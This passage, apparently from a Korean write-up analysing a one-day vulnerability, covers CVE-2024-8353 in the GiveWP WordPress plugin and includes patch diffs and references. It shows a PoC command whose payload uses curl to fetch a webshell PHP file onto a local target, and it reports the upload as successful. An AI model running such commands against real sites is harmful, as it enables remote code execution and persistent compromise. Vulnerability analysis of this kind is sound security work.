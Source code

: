 PoC코드를 실행합니다.
```
python3 CVE-2024-8353.py -u http://localhost:8080/?p=9 -c "curl -O https://rlaaudrb1104.github.io/test_webshell.php"
```
웹쉘을 성공적으로 업로드 할 수 있습니다.

![image.png](/assets/posts/one-day/2025-02-21/image-004.png)

## 5. 패치 내용 및 변경사항 분석
```diff
@@
- $user_info = stripslashes_deep( $user_info );
+ $user_info = array_map('\Give\Helpers\Utils::maybeSafeUnserialize', stripslashes_deep( $user_info ));
@@
-     'user_info'    => stripslashes_deep( $user_info ),
+     'user_info'    => $user_info,
```

```diff
- $question            = $params['question'];
- $conversation        = $params['conversation'];
- $unique_conversation = $params['unique_conversation'];
+ $question            = sanitize_text_field($params['question']);
+ $conversation = array_map(function($conv) {
+ return [
+ 'text' => sanitize_text_field($conv['text']),
+ 'role' => sanitize_text_field($conv['role']),
+ 'date' => sanitize_text_field($conv['date'])
+ ];
+ }, $params['conversation']);
+ $unique_conversation = sanitize_text_field($params['unique_conversation']);
```

해당 취약점에 대한 패치는 `stripslashes_deep()` 함수의 역직렬화 우회 문제를 해결하는 방식으로 적용되었습니다. 
이를 통해 공격자가 직렬화된 악의적인 데이터를 주입할 수 없도록 방지합니다.


## 참고자료

https://www.wordfence.com/blog/2024/08/4998-bounty-awarded-and-100000-wordpress-sites-protected-against-unauthenticated-remote-code-execution-vulnerability-patched-in-givewp-wordpress-plugin/

https://github.com/EQSTLab/CVE-2024-8353